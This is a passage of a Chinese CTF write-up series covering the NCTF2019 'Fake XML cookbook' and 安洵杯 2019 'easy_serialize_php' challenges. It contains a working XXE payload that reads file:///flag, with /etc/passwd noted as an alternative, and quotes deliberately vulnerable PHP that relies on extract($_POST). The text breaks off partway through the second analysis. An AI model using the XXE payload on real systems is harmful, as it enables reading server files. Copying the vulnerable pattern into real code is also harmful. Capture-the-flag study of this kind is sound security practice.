 ![在这里插入图片描述](https://img-blog.csdnimg.cn/f09c97fab4cc4a1d8b41702c31047ea0.png)
查看页面源码，base64解码得flag

========================================================

# [NCTF2019]Fake XML cookbook

>https://blog.csdn.net/qq_52907838/article/details/118030007

XXE
![在这里插入图片描述](https://img-blog.csdnimg.cn/cad901bfca084d3aa9d9bd61a2cb86ed.png)

抓包发现登录框可以HTML注入
```html
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///flag">
  ]>
  <!--file:///etc/passwd--><!--读目录-->
<user><username>&admin;</username><password>123456</password></user>

```
========================================================
# [安洵杯 2019]easy_serialize_php
-------------------------字符逃逸-----------------------------

>参见https://www.cnblogs.com/LLeaves/p/12813992.html

![在这里插入图片描述](https://img-blog.csdnimg.cn/45e55a046dac417ea09a527061e1aa70.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAU3ByaW50IzUxMjY0,size_16,color_FFFFFF,t_70,g_se,x_16)
`extract:从数组中将变量导入到当前的符号表`

1. phpinfo页面关键信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/31d2d5488b14421aa935fae7ee86a9ae.png)
说明要读取d0g3_flag.php里面的内容，直接访问是访问不到的

分析一下源码:

```php
<?php

$function = @$_GET['f'];//传function

function filter($img){//过滤字符为空，字符逃逸关键点
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){//先清空SESSION为后面赋值开路
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
//SESSION当前只有两个键值对

extract($_POST);//从$_POST中提取键值对，变量覆盖关键点

if(!$function){//首页
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

```